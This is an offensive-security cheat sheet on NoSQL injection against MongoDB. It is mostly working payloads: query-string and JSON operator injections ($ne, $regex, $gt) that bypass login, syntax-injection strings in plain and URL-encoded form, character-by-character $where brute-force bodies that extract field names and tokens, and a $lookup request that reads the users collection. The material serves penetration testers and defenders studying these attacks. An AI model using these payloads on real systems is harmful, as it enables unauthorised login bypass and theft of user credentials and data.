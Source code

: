 ```yaml
---
title: NoSQL Injection
description: NoSQL Injection is derived from SQL Injection. It affects NoSQL database such as MongoDB, Apache Cassandra.
tags:
    - Database
    - SQL Injection
    - Web
refs:
    - https://portswigger.net/web-security/nosql-injection
date: 2023-10-05
draft: false
---
```


## Manual Injection

See also [Web Login Bypass NoSQL Injection](/exploit/web/method/web-login-bypass/).

### Mongo

If the web application uses MongDB, you might be able to fetch the user's information.  
It allows you to bypass authentication.

```sh
/?username=admin&password[$ne]=xyz
/?username[$ne]=admin&role=guest
/?id[$gt]=1&username=john
```

- **Syntax**
    
    Below are the payloads to syntax injection. Don’t forget to try the URL-encoded payloads.

    ```html
    test||1==1
    test%7C%7C1%3D%3D1

    test||1==1//
    test%7C%7C1%3D%3D1%2F%2F

    test||1==1%00
    test%7C%7C1%3D%3D1%2500

    test||1==1\u0000
    test%7C%7C1%3D%3D1%5Cu0000

    test||'1==1
    test%7C%7C%271%3D%3D1

    test||'1'=='1'
    test%7C%7C%271%27%3D%3D%271%27

    test||'1'=='1
    test%7C%7C%271%27%3D%3D%271

    test'||1||'
    test%27%7c%7c%31%7c%7c%27

    <!-- Find specific fields e.g. 'password' -->
    admin' && this.password!='
    admin'+%26%26+this.password!%3d'
    ```

- Operators

    ```bash
    # $ne: Not equal
    username[$ne]=xyz&password[$ne]=xyz

    # $regex: Regular expressions
    username[$regex]=.*&password[$regex]=.*

    # $gt: Greater than
    username[$gt]=s&password[$gt]=s
    # $lt: Lower than
    username[$lt]=s&password[$lt]=s
    ```

- Operators & JSON

    To use the following payloads, set the `Content-Type` header to `application/json` in the HTTP request header.

    ```bash
    { "username": { "$ne": "xyz" }, "password": { "$ne": "xyz" } }
    ```

    Brute force parameters.

    ```bash
    # Brute force each character for the parameter key
    { "username": "admin", "password": "test", { "$where": "Object.keys(this)[1].match('^.{0}a.*')" }}
    { "username": "admin", "password": "test", { "$where": "Object.keys(this)[1].match('^.{0}b.*')" }}
    { "username": "admin", "password": "test", { "$where": "Object.keys(this)[1].match('^.{0}c.*')" }}
    ...
    { "username": "admin", "password": "test", { "$where": "Object.keys(this)[1].match('^.{1}a.*')" }}
    ...
    { "username": "admin", "password": "test", { "$where": "Object.keys(this)[8].match('^.{8}z.*')" }}

    # Brute force each character for the specific parameter value
    { "username": "admin", "password": "test", { "$where": "this.exampleToken.match('^.{0}a.*')" }
    { "username": "admin", "password": "test", { "$where": "this.exampleToken.match('^.{0}b.*')" }
    { "username": "admin", "password": "test", { "$where": "this.exampleToken.match('^.{0}c.*')" }
    ...
    { "username": "admin", "password": "test", { "$where": "this.exampleToken.match('^.{1}a.*')" }
    ...
    { "username": "admin", "password": "test", { "$where": "this.exampleToken.match('^.{8}z.*')" }
    ```

<br /><br />

## Retrieve Another Document (MongoDB)

If the website uses **MongoDB** and uses **`$match`** aggregation to fetch documents, we can change the aggregation to **`$lookup`** for joining another document and get desired information from the document.  
First, check if the **`$match`** operator is used in the website.

```bash
POST /products HTTP/1.1
...

{
    "$match": {
        "sold": false
    }
}
```

As above, the website uses **`$match`** aggregator to fetch data from the **"products"** document, so we can change this as the following.  
Assume both the **"products"** and **"users"** document have an **"id"** field.

```bash
POST /users HTTP/1.1
...

{
    "$lookup": {
        "from": "users",
        "localField": "id",
        "foreignField": "id",
        "as": "test"
    }
}
```

Then send this request. We can retrieve values in the **"users"** document.